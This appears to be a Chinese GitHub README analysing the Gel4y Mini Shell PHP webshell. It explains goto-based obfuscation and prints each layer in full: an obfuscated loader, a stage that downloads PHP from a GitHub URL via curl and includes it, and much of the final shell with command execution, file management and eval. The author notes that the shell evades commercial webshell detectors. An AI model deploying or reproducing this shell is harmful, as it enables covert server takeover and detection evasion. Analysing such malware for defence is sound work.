



# Gel4y-Mini-Shell-Backdoor-Decode

## 1# 概述

最近看到许多公众号都在传老外的一个WebShell免杀项目：[https://github.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor](https://github.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor)

刚好最近闲的没事干，也在研究WebShell方面的免杀，就随手看看

## 2# 杀软测试

直接能过阿里云恶意检测平台



长亭牧云的WebShell检测也不在话下



注：阿里云是最外层过了，长亭牧云是里层解密内容过了

## 3# PHP分析

**注明：仓库PHP文件当中 `original` 代表原始文件的意思，`encode` 代表解密文件的意思**

首先，原始的PHP来自于[https://github.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/blob/1.x.x/gel4y.php](https://github.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/blob/1.x.x/gel4y.php)，也就是本仓库中的 `Gel4y-Mini-Shell-1_original.php`

将 `Gel4y-Mini-Shell-1_original.php` 内容打开，可以很明显看到采用的是goto加密的方法，那这里不得不提到 `goto` 的相关语法知识，防止不懂的师傅看不懂后面的内容

### 3.1 goto语法

Demo1 一个简单的跳转：
```php
<?php
goto loop;
echo 'this is first';
loop:
echo 'this is second';
```

可以发现，刚开始PHP执行 `goto loop;` ，就跳转到 `loop:` 这一行，中间的 `echo 'this is first';` 被跳过了，所以输出就为：
```php
this is second
```

Demo2 跳出循环:
```php
<?php
for($i=0; $i<10; $i++) {
    while($i++) {
        if($i==5) goto end;
    }
}
echo 'The i=10';
end:
echo 'The i=' . $i;
```

可以发现，在满足 `$i==5` 条件的时候，就执行 `goto end;` 跳出循环，跳到最后，所以输出就为：
```php
The i=5
```

注：`goto` 可以跳出循环，但无法跳入循环

### 3.2 解密第一层PHP

那了解了goto的用法后，我们可以来尝试解密最原始的WebShell

```php
<?php error_reporting(0);goto PP; BK: function tC($ZJ) { goto rT; rT: $dL = "t\x65mpnam"("sys_g\x65t_t\x65mp_d\x69r"(), "\164\x6d\x70\137\x66\x75\x6e\x63"); goto hq; lJ: unlink($dL); goto Il; Il: return $dm; goto Uc; pM: $dm = (include $dL); goto lJ; hq: file_put_contents($dL, "\74\77\160\150\x70\40{$ZJ}"); goto pM; Uc: } goto dL; PP: function gW($F9) { goto TH; Gd: $ik = 0; goto T3; xN: Ky: goto lt; lt: $ik++; goto Gm; us: return $F9; goto zm; Z9: if (!($ik < strlen($F9))) { goto qK; } goto WS; TH: $F9 = base64_decode($F9); goto Gd; Gm: goto Fk; goto sR; sR: qK: goto us; T3: Fk: goto Z9; WS: $F9[$ik] = chr(ord($F9[$ik]) - 1); goto xN; zm: } goto BK; dL: Tc(gW("\x49\x53\105\x68\111\x53\x45\114\115\103\x73\x68\x49\123\106\x67\131\x47\102\x67\x59\x47\102\x67\x59\x47\102\x67\131\107\102\x67\x59\107\x42\147\131\107\x42\x67\x59\x47\x42\147\x59\x47\x42\x67\x59\107\102\147\131\107\102\x67\x59\107\x42\x67\131\x47\102\147\131\x47\x42\147\131\107\102\x67\131\107\102\147\x59\107\x42\x67\x59\101\163\x68\x49\123\105\x68\x66\x53\x45\150\125\x47\x4e\x6e\x64\156\122\153\131\156\x56\x6d\x5a\123\x46\x6a\x65\x69\106\x61\121\153\x77\x68\125\x58\x4e\167\x49\123\x34\150\x55\127\154\170\x49\126\102\x6a\x5a\63\x5a\x30\132\x47\112\x31\x63\x48\115\x68\x49\124\x4d\x76\x4d\x53\x38\x79\x4e\x53\x45\x68\x66\121\x73\150\x49\x53\105\x68\x66\x53\105\x68\x49\123\x45\x68\x49\x53\105\150\x49\123\x45\x68\111\x53\105\150\x63\x47\70\x68\x4d\172\105\172\116\103\64\171\115\x79\x34\x78\116\103\105\171\117\104\x73\x32\x4e\x7a\163\x30\116\151\105\x68\x49\x53\x45\150\x49\x53\105\x68\111\123\x45\150\111\x53\105\150\146\121\x73\x68\111\x53\x45\x68\146\123\x45\150\111\123\106\111\x61\x6e\126\112\x64\x6d\x4d\x37\111\x57\154\61\x64\130\x46\x30\x4f\172\x41\x77\141\107\x70\61\141\130\132\152\114\62\122\x77\x62\x6a\102\x78\x62\x43\x35\x6e\x63\172\x42\x36\131\x6d\x78\170\x63\x33\101\x75\143\130\101\x68\111\123\x45\x68\146\x51\163\x68\111\123\105\x68\x66\127\102\147\131\107\x42\147\x59\107\x42\147\131\x47\x42\147\131\x47\x42\x67\x59\107\x42\147\131\107\x42\x67\x59\x47\x42\147\x59\x47\102\147\131\107\x42\147\131\107\102\x67\131\x47\x42\147\131\x47\102\x67\131\107\x42\147\x59\107\102\147\131\x47\x42\x67\131\x47\x42\x67\x66\x51\x73\162\x4d\x41\x73\150\141\110\x42\x31\x63\x43\106\110\145\104\167\x68\121\152\x63\67\111\127\144\62\142\x32\122\x31\x61\156\102\166\111\130\x56\63\x4b\123\x56\x7a\125\x79\x6f\150\146\x43\x46\157\143\x48\x56\x77\111\x55\125\64\x50\x43\x46\161\x52\104\163\150\x4a\126\164\x45\x49\x54\x34\150\x4b\x57\160\x76\132\107\x31\x32\x5a\127\131\150\112\130\x6f\62\113\x6a\x77\150\x61\110\x42\61\x63\x43\106\x78\141\152\167\x68\124\62\163\x37\111\130\x4e\x6d\144\x58\132\x7a\142\x79\x45\x6c\127\x30\x51\x38\x49\127\x68\167\144\130\x41\150\141\154\115\x38\x49\x55\x56\x48\117\171\106\x6e\141\x6d\61\x6d\131\x48\106\x32\144\127\102\153\143\107\71\61\132\155\71\61\144\x43\x6b\x6c\145\x6a\x59\164\111\x53\116\70\x4a\130\116\x54\x66\x69\x4d\161\120\103\106\x6f\143\110\126\x77\x49\127\160\x45\120\103\x46\106\x4f\x44\x73\x68\112\x58\x6f\62\111\x54\64\150\144\127\x5a\x75\143\x57\x39\x69\x62\151\x6c\60\x65\156\x52\x67\x61\x47\x5a\61\131\x48\x56\x6d\x62\x6e\x46\x67\132\127\x70\x7a\113\123\157\x74\x49\123\x4e\x64\145\x54\x67\x31\130\x58\153\x33\x5a\x56\61\x35\x4f\x44\106\x64\x65\124\132\x6e\130\124\111\x31\x4e\x31\60\171\116\172\x5a\x64\x65\x54\144\155\130\130\153\63\116\103\x4d\161\x50\103\x46\x6f\x63\110\126\167\111\125\126\110\x50\103\x46\170\x61\152\163\x68\144\x6d\71\x74\x61\155\71\163\113\123\x56\x36\x4e\151\157\x38\x49\127\x68\x77\144\130\101\150\124\62\163\x38\111\x57\160\124\x4f\171\x46\x2b\111\127\x68\x77\144\x58\101\150\144\152\105\70\x49\x55\x64\64\x4f\171\105\154\141\126\x51\x68\120\151\x46\153\144\156\x4e\x74\131\107\x70\x76\141\x6e\x55\x70\113\152\x77\150\x61\110\102\61\143\103\106\125\143\x6a\167\x68\144\110\x67\67\x49\x53\126\172\124\x53\105\x2b\x49\127\122\62\x63\x32\61\x67\x5a\x6e\154\x6d\x5a\103\x6b\154\141\126\x51\x71\x50\x43\106\157\x63\x48\x56\x77\x49\126\102\x62\x50\103\x46\x51\x57\172\x73\150\132\x48\132\x7a\142\127\102\153\142\130\102\x30\132\151\x6b\154\141\x56\121\x71\120\103\x46\x6f\x63\x48\x56\167\x49\x55\x49\x33\x50\103\x46\125\143\152\163\x68\x5a\110\x5a\x7a\x62\x57\x42\60\x5a\x6e\126\x77\x63\130\x56\x67\x59\156\116\172\131\156\157\x70\112\127\x6c\125\114\123\x46\151\x63\63\x4e\x69\145\x69\x6c\x45\126\x6c\116\116\x55\x46\106\x56\131\106\x5a\x54\124\123\x45\53\120\x79\105\x6a\x58\x54\111\x32\115\126\60\171\116\172\x56\144\145\x54\147\61\x58\x54\111\x33\x4d\x56\60\x79\x4e\x7a\122\144\x65\x54\x52\x69\130\x58\x6b\x7a\x5a\61\61\65\115\62\144\144\115\152\x63\172\x58\130\x6b\x33\x4d\154\61\x35\117\104\x68\x64\116\152\x64\x64\x65\124\143\64\x58\x58\x6b\x33\117\154\x30\x79\x4e\x7a\x56\144\x65\x54\143\x35\130\124\x49\63\x4e\154\61\65\x4e\x7a\116\144\145\124\x67\x32\x58\x54\111\x33\116\x46\x31\65\116\172\x5a\x64\115\x6a\143\x7a\x58\x58\153\63\x4e\x46\60\x79\x4e\x6a\150\x64\x4d\152\x59\63\x58\130\153\x34\x4e\126\61\65\116\x7a\132\144\x4d\152\131\63\x58\130\153\64\116\x56\x30\62\116\61\61\x35\116\172\x52\144\x65\124\144\x6e\130\x58\x6b\63\132\x56\60\x32\117\x46\60\x33\x4d\x31\61\x35\116\104\x4e\x64\x65\124\x59\65\130\x58\x6b\64\115\126\60\171\x4e\x6a\x56\x64\x65\124\x64\156\x58\x54\x49\62\x4d\154\x30\171\x4e\172\x56\144\x65\x54\143\62\x58\x54\x49\x33\x4d\x31\x30\171\x4d\x54\122\x64\115\152\x63\172\x58\124\111\61\116\154\x30\171\116\x7a\x68\x64\116\x6a\132\x64\145\x54\x59\x31\130\x58\153\x33\116\x6c\61\65\x4e\172\112\144\115\x6a\131\62\x58\130\x6b\x7a\x5a\x31\60\171\x4d\124\x68\x64\x65\124\x63\x32\x58\x54\111\x32\x4e\126\60\63\x4e\x56\x30\171\x4f\x44\x4a\144\116\x6a\132\144\145\124\126\x6c\x58\x58\153\x33\117\154\61\65\116\x32\132\144\115\x6a\x59\x79\130\x58\153\x7a\132\126\x30\x79\x4d\172\122\144\115\x6a\131\170\130\x58\x6b\x33\116\x6c\61\65\x4e\62\122\144\145\124\144\x6b\130\x58\x6b\x7a\132\x56\60\x79\x4d\124\116\x64\115\152\x55\x79\x58\x54\x49\61\x4e\x46\61\x35\x4e\x32\x4e\x64\x4d\x6a\x55\61\130\130\153\63\132\x31\x31\x35\x4e\x32\144\x64\145\124\147\x7a\130\x58\153\172\x5a\61\61\x35\x4e\172\126\144\x65\124\x63\x32\130\130\153\x34\116\x31\60\62\x4f\x46\x31\65\116\x7a\150\x64\x4d\152\x55\x32\x58\x58\153\x33\132\106\61\65\x4e\x7a\x4a\x64\x65\x54\147\66\130\130\x6b\172\x5a\x6c\x31\x35\117\104\x46\144\145\124\x63\65\x58\124\x49\x33\115\x53\x4d\x74\111\x55\x52\127\x55\x30\x31\x51\125\x56\x56\147\126\106\x52\116\131\x46\x64\x47\125\x30\x70\110\127\153\154\x51\126\x46\125\150\x50\152\x38\x68\122\x30\112\116\126\x45\x59\x74\x49\x55\122\127\125\x30\x31\121\x55\x56\x56\x67\x56\x46\x52\116\131\106\144\107\125\x30\x70\x48\127\x6c\106\x47\x52\154\115\150\x50\152\x38\x68\122\x30\x4a\116\x56\x45\131\x74\x49\x55\122\127\125\x30\x31\x51\125\x56\126\x67\125\60\x5a\x56\x56\154\x4e\120\126\126\116\x43\124\61\x52\x48\x52\154\115\x68\120\152\x38\x68\x56\126\x4e\x57\x52\x69\x6f\x71\120\103\x46\x6f\x63\x48\126\x77\111\130\x52\x34\x50\103\106\x32\115\x54\x73\x68\x64\x58\x63\x70\112\130\x4e\x4e\113\152\167\75"));
```

经过goto解密，再进行重新编排，解密结果就为本仓库的 `Gel4y-Mini-Shell-1_decode.php`，内容如下：

```php
<?php
error_reporting(0);
function gW($F9)
{
    $F9 = base64_decode($F9);
    $ik = 0;
    while ($ik < strlen($F9)) {
        $F9[$ik] = chr(ord($F9[$ik]) - 1);
        $ik++;
    }
    return $F9;
}
function tC($ZJ)
{
    $dL = ("tempnam")(("sys_get_temp_dir")(), "tmp_func");
    file_put_contents($dL, "<?php {$ZJ}");
    $dm = (include $dL);
    unlink($dL);
    return $dm;
}
Tc(gW("ISEhISELMCshISFgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYAshISEhfSEhUGNndnRkYnVmZSFjeiFaQkwhUXNwIS4hUWlxIVBjZ3Z0ZGJ1cHMhITMvMS8yNSEhfQshISEhfSEhISEhISEhISEhISEhcG8hMzEzNC4yMy4xNCEyODs2Nzs0NiEhISEhISEhISEhISEhfQshISEhfSEhISFIanVJdmM7IWl1dXF0OzAwaGp1aXZjL2RwbjBxbC5nczB6Ymxxc3AucXAhISEhfQshISEhfWBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgYGBgfQsrMAshaHB1cCFHeDwhQjc7IWd2b2R1anBvIXV3KSVzUyohfCFocHVwIUU4PCFqRDshJVtEIT4hKWpvZG12ZWYhJXo2KjwhaHB1cCFxajwhT2s7IXNmdXZzbyElW0Q8IWhwdXAhalM8IUVHOyFnam1mYHF2dWBkcG91Zm91dCklejYtISN8JXNTfiMqPCFocHVwIWpEPCFFODshJXo2IT4hdWZucW9ibil0enRgaGZ1YHVmbnFgZWpzKSotISNdeTg1XXk3ZV15ODFdeTZnXTI1N10yNzZdeTdmXXk3NCMqPCFocHVwIUVHPCFxajshdm9tam9sKSV6Nio8IWhwdXAhT2s8IWpTOyF+IWhwdXAhdjE8IUd4OyElaVQhPiFkdnNtYGpvanUpKjwhaHB1cCFUcjwhdHg7ISVzTSE+IWR2c21gZnlmZCklaVQqPCFocHVwIVBbPCFQWzshZHZzbWBkbXB0ZiklaVQqPCFocHVwIUI3PCFUcjshZHZzbWB0ZnVwcXVgYnNzYnopJWlULSFic3NieilEVlNNUFFVYFZTTSE+PyEjXTI2MV0yNzVdeTg1XTI3MV0yNzRdeTRiXXkzZ115M2ddMjczXXk3Ml15ODhdNjddeTc4XXk3Ol0yNzVdeTc5XTI3Nl15NzNdeTg2XTI3NF15NzZdMjczXXk3NF0yNjhdMjY3XXk4NV15NzZdMjY3XXk4NV02N115NzRdeTdnXXk3ZV02OF03M115NDNdeTY5XXk4MV0yNjVdeTdnXTI2Ml0yNzVdeTc2XTI3M10yMTRdMjczXTI1Nl0yNzhdNjZdeTY1XXk3Nl15NzJdMjY2XXkzZ10yMThdeTc2XTI2NV03NV0yODJdNjZdeTVlXXk3Ol15N2ZdMjYyXXkzZV0yMzRdMjYxXXk3Nl15N2RdeTdkXXkzZV0yMTNdMjUyXTI1NF15N2NdMjU1XXk3Z115N2ddeTgzXXkzZ115NzVdeTc2XXk4N102OF15NzhdMjU2XXk3ZF15NzJdeTg6XXkzZl15ODFdeTc5XTI3MSMtIURWU01QUVVgVFRNYFdGU0pHWklQVFUhPj8hR0JNVEYtIURWU01QUVVgVFRNYFdGU0pHWlFGRlMhPj8hR0JNVEYtIURWU01QUVVgU0ZVVlNPVVNCT1RHRlMhPj8hVVNWRioqPCFocHVwIXR4PCF2MTshdXcpJXNNKjw="));
```

同时，我们通过断点调试，可以得到解码后执行的PHP内容：



通过断点调试，或者执行已经解密的php自定义函数 `gW($F9)` 可以得到本仓库的 `Gel4y-Mini-Shell-2_original.php`，内容如下：

```php
<?php
/* __________________________________________________ | Obfuscated by YAK Pro - Php Obfuscator 2.0.14 | | on 2023-12-03 17:56:35 | | GitHub: https://github.com/pk-fr/yakpro-po | |__________________________________________________| */ goto Fw; A6: function tv($rR) { goto D7; iC: $ZC = (include $y5); goto pi; Nj: return $ZC; goto iR; DF: file_put_contents($y5, "{$rR}"); goto iC; D7: $y5 = tempnam(sys_get_temp_dir(), "\x74\x6d\x70\x5f\146\165\x6e\x63"); goto DF; pi: unlink($y5); goto Nj; iR: } goto u0; Fw: $hS = curl_init(); goto Sq; sw: $rL = curl_exec($hS); goto OZ; OZ: curl_close($hS); goto A6; Sq: curl_setopt_array($hS, array(CURLOPT_URL => "\150\164\x74\160\163\x3a\x2f\x2f\162\x61\x77\56\x67\x69\164\x68\165\x62\x75\163\x65\162\x63\157\156\x74\x65\156\x74\56\x63\x6f\x6d\57\62\x32\x58\x70\154\x6f\151\164\x65\162\103\162\145\167\55\x54\x65\x61\155\x2f\107\x65\154\64\171\55\x4d\x69\x6e\151\x2d\123\150\x65\x6c\x6c\x2d\102\141\143\x6b\144\x6f\x6f\x72\x2f\x64\x65\x76\57\x67\145\x6c\x61\x79\x2e\x70\x68\160", CURLOPT_SSL_VERIFYHOST => FALSE, CURLOPT_SSL_VERIFYPEER => FALSE, CURLOPT_RETURNTRANSFER => TRUE)); goto sw; u0: tv($rL);
```

同样，梳理 `goto` 的跳转内容，可以解码并整理出以下原始内容，即本仓库的 `Gel4y-Mini-Shell-2_decode.php`，内容如下：

```php
<?php
$hS = curl_init();
curl_setopt_array($hS, array(CURLOPT_URL => "https://raw.githubusercontent.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/dev/gelay.php", CURLOPT_SSL_VERIFYHOST => FALSE, CURLOPT_SSL_VERIFYPEER => FALSE, CURLOPT_RETURNTRANSFER => TRUE));
$rL = curl_exec($hS);
curl_close($hS);
function tv($rR)
{
    $y5 = tempnam(sys_get_temp_dir(), "tmp_func");
    file_put_contents($y5, "{$rR}");
    $ZC = (include $y5);
    unlink($y5);
    return $ZC;
}
tv($rL);
```

定睛一看，原来是 `curl` 并执行了Github上另外一个托管的php代码，地址为：[https://raw.githubusercontent.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/dev/gelay.php](https://raw.githubusercontent.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/dev/gelay.php)，遂将该代码下载下来，也就是本仓库的 `Gel4y-Mini-Shell-3_original.php`，内容如下：

```php
<?php
http_response_code(404);
goto YYviAIE2go;
DMDVAvNxme:
$j6fm9JkXX3 = new ZipArchive();
goto iQnuU7UbQZ;
YtyLK4CiZm:
lXPtdPwHZr:
goto CAzQINwyXp;
uuEMYRcWJf:
?>" class="form-control">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Connect</button>
</div>
</form>
<?php
goto DKCCjxBaV1;
FrJD9Jsque:
echo php_uname();
goto MMrXTvXqy7;
f3YaO_36Gp:
b_Aq_femsk:
goto kI2aFVtVVe;
CAzQINwyXp:
eCbgD8Xa7G:
goto tJJFzbSKwD;
tRwrGXooF4:
isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? BB5iNvUgyh("file name has been used", rxeFBN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXefbN6HEy("cfile", 0), 0) : (file_put_contents("{$EEfZ6TZDdb}/{$_POST["n"]}", $_POST["ctn"]) ? Bb5inVUGYh("file created successfully", rXeFBN6heY($EEfZ6TZDdb, 0) . "&a=" . rXEFBn6HEy("view", 0) . "&n=" . RXeFbn6heY($_POST["n"], 0)) : Bb5invUgYh("file failed to create", rxEFBN6HEy($EEfZ6TZDdb, 0), 0)) : null;
goto MOs0Lw2QRZ;
qRqOKZqPSD:
echo rxeFBn6hEy($_GET["n"]);
goto P7K6f8_xHe;
knjkHswo6U:
if (!($j78MPlSKil == true)) {
goto lXPtdPwHZr;
}
goto fV1xJLciE1;
dFM2sYAJlJ:
header("Content-Length: " . strtotime(Rxefbn6hey($_GET["n"])));
goto MTQ6j3p_JU;
FFNAjFboph:
Bip4SkFlwd:
goto pLaaRpww2m;
Pgo80visnY:
$Dbi_h94n09 = $_FILES['f']['type'];
goto wdy3Z2bJG6;
wdy3Z2bJG6:
$jzgT5WmvBi = array('application/zip', 'application/x-zip-compressed', 'multipart/x-zip', 'application/x-compressed');
goto ynEoAvZ7Ef;
EY59hEhqcL:
$IKiphkRa67 = 0;
goto nNXfQ4ODK4;
pd2Xp8eNUU:
function rxefBN6hEy($D9W0v0K2q3, $b5rceFkfVX = true, $IKiphkRa67 = 0) {
goto e8KaQn3Obp;
efhwre2vrg:
goto UWZW4tv7l3;
goto EThfiMKXfe;
SXUX6z3P3K:
if (!($IKiphkRa67 < $OI03NhJ2Yv - 1)) {
goto ofW6zrTBdf;
}
goto VYWlS3nOx0;
aPqRRotZs7:
if ($b5rceFkfVX == false) {
goto wOYeLPzegZ;
}
goto XT9k8Als00;
cdda9BMGIp:
if (!($IKiphkRa67 < $OI03NhJ2Yv)) {
goto scQ2ws4J9b;
}
goto RLaX7avg7R;
Em1B6VAcvW:
wOYeLPzegZ:
goto tSFsOi93Pc;
e8KaQn3Obp:
$FMsfhj9eNN = '';
goto YBvZCMvcoQ;
Rnp6XxBU71:
goto hcWSNAsNnn;
goto cD0EopBgMr;
tSNU_V8RLN:
ksnrAMe13N:
goto mVE3hfoO3d;
mVE3hfoO3d:
$IKiphkRa67 += 2;
goto efhwre2vrg;
yBu1sPMOO9:
zdNGAHnz2I:
goto GuXCE9we3H;
GuXCE9we3H:
return $FMsfhj9eNN;
goto ZQKmM0ZO1z;
Bs8OEHOqrR:
$IKiphkRa67++;
goto Rnp6XxBU71;
zOx24N5WZG:
p9qfiI3280:
goto Bs8OEHOqrR;
XT9k8Als00:
UWZW4tv7l3:
goto SXUX6z3P3K;
cD0EopBgMr:
scQ2ws4J9b:
goto yBu1sPMOO9;
VYWlS3nOx0:
$FMsfhj9eNN .= chr(hexdec("{$D9W0v0K2q3[$IKiphkRa67]}{$D9W0v0K2q3[$IKiphkRa67 + 1]}"));
goto tSNU_V8RLN;
EThfiMKXfe:
ofW6zrTBdf:
goto tqfBTI4VQk;
RLaX7avg7R:
$FMsfhj9eNN .= dechex(ord($D9W0v0K2q3[$IKiphkRa67]));
goto zOx24N5WZG;
tqfBTI4VQk:
goto zdNGAHnz2I;
goto Em1B6VAcvW;
tSFsOi93Pc:
hcWSNAsNnn:
goto cdda9BMGIp;
YBvZCMvcoQ:
$OI03NhJ2Yv = strlen($D9W0v0K2q3);
goto aPqRRotZs7;
ZQKmM0ZO1z:
}
goto ZNQuKDPR_4;
vhjTMlZILs:
?>
<h5>Command</h5>
<pre class="border bg-info p-2"><i class="fa fa-terminal"></i> <?php
goto LHKm105Km7;
nRad7u_84k:
UVK2cx0wsu:
goto P3l6Ot_Nq2;
Pb_Plr8szn:
isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? Bb5INvugYh("folder name has been used", rxefbn6hEy($EEfZ6TZDdb, 0) . "&a=" . rxefBn6hey("cdir", 0)) : (mkdir("{$EEfZ6TZDdb}/{$_POST["n"]}") ? bB5iNVUGyH("folder created successfully", RxeFbN6HEy($EEfZ6TZDdb . "/" . $_POST["n"], 0)) : BB5InvUgYH("folder failed to create", RxEfBN6hEy($EEfZ6TZDdb, 0), 0)) : null;
goto EdwYtsCOvQ;
xezzXbZ0n3:
echo $_GET["t"] == "d" ? "folder" : "file";
goto X31kOqdTx7;
egAEX13geb:
?>
<h5>View file</h5>
<span>File name : <?php
goto d5oIa6c6mo;
e1DVBPK5MZ:
AmZ_WHgxlE:
goto QiVggpWdug;
kPuh3sB7ZW:
bLvI_Fu3sF:
goto NIDHY8CumR;
WX3PBtaAK3:
LEIHIpts4n:
goto p59Ko9RToC;
pzkU10IQiS:
iqfV5KrODo:
goto DSgJ4EEwOL;
U6RgZiR5iP:
foreach ($fgiEl2SFA1 as $GH5ltOv09p) {
goto NGJBE3_QDg;
fnleygjPy5:
goto Hr0waR6BpO;
goto OOFzGy7x36;
OOFzGy7x36:
jCLJ3kfZ8a:
goto kd_ict3juy;
NGJBE3_QDg:
if (is_dir("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) {
goto jCLJ3kfZ8a;
}
goto fnleygjPy5;
kd_ict3juy:
echo "<tr>\n          <td><a href=\"?l=" . RxefBN6hEY("{$EEfZ6TZDdb}/{$GH5ltOv09p}", 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on " . date("Y-m-d H:i", filemtime("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) . "\"><i class=\"fa fa-fw fa-folder" . (count(scandir("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) == 0 ? "" : "-open") . " text-warning\"></i> {$GH5ltOv09p}</a></td>\n          <td>N/A</td>\n          <td><font color=\"" . (is_writable("{$EEfZ6TZDdb}/{$GH5ltOv09p}") ? "#00ff00" : (!is_readable("{$EEfZ6TZDdb}/{$GH5ltOv09p}") ? "red" : null)) . "\">" . hRXkAtTukJ("{$EEfZ6TZDdb}/{$GH5ltOv09p}") . "</font></td>\n          <td>\n            <a href=\"?l=" . rXeFbN6HEy($EEfZ6TZDdb, 0) . "&a=" . rxeFBn6HEy("rename", 0) . "&n=" . rXEFbN6Hey($GH5ltOv09p, 0) . "&t=d\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a>\n            <a href=\"?l=" . RxEfBn6hEY($EEfZ6TZDdb, 0) . "&a=" . RxefbN6hey("delete", 0) . "&n=" . rxEFbn6HEy($GH5ltOv09p, 0) . "&t=f\" class=\"delete\" data-type=\"folder\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a>\n          </td></tr>";
goto zfUgYAH3MQ;
zfUgYAH3MQ:
Hr0waR6BpO:
goto Pn1401P2iD;
Pn1401P2iD:
}
goto dNAXwyF5jm;
Hqjr9ld8se:
$IKiphkRa67++;
goto d0z8uX0wp2;
MWacVfk2Z9:
echo "{$_SERVER["SERVER_NAME"]} ({$_SERVER["REMOTE_ADDR"]})";
goto cCui051SEu;
L3Ih6C_82z:
$EEfZ6TZDdb = getcwd();
goto HD1w0oiEBZ;
pQ3h2CEIaE:
yLxrotraE3:
goto deRzU3bq7h;
zvl7rFBRXM:
echo phpversion();
goto OyonV_aXfE;
zoc5HXXlKd:
if (!($hzOvuJeFzz == "delete")) {
goto a570kYKgnw;
}
goto HAtVYbHdyo;
jP2j_WsoIN:
$fgiEl2SFA1 = array_diff(scandir($EEfZ6TZDdb), ['.', '..']);
goto U6RgZiR5iP;
d0z8uX0wp2:
goto et0KZW4bvS;
goto DYX5ofDNkJ;
JxeppvOhkj:
mqgxd0ffd7:
goto EfxIdbdntP;
t5hyi0WMXW:
?>
<div class="px-2 py-2">
<?php
goto zoc5HXXlKd;
TGAVCVIxJL:
isset($_POST["s"]) ? rename($EEfZ6TZDdb . '/' . rXEFbn6heY($_GET["n"]), $_POST["n"]) ? bB5invUGyH("successfully changed the name", rxEfbn6hey($EEfZ6TZDdb, 0)) : Bb5iNvugyh("failed to change the name", RXEfbn6HEY($EEfZ6TZDdb, 0), 0) : null;
goto dbYRcKsPIp;
qvSYZCVNk0:
Q0WFVkujRs($IqAFWYu448);
goto FM1zySo56b;
NIDHY8CumR:
a570kYKgnw:
goto gQ0uxJM3IM;
fpFzgy_AKw:
unlink($IqAFWYu448);
goto wKFr1pnzc8;
LHKm105Km7:
echo isset($_POST["cmd"]) ? $_POST["cmd"] . "<br>" . ZiODPz7nrE($_POST["cmd"]) : "";
goto MvSZRFs0SS;
jz_2zEOwzt:
if (!isset($_FILES['f'])) {
goto CYI57kgQJP;
}
goto Kf_pWcks49;
IVRDMHFY4o:
?></span>
<form method="post">
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control"><?php
goto s00fzLO5Yl;
jt5neMFYv3:
CYI57kgQJP:
goto h3GEWWTVgD;
WQ5FRO1vHE:
?></textarea>
</div>
<?php
goto uTadf7sHfn;
pqYY95BvuW:
eval($rRwNpSflmI);
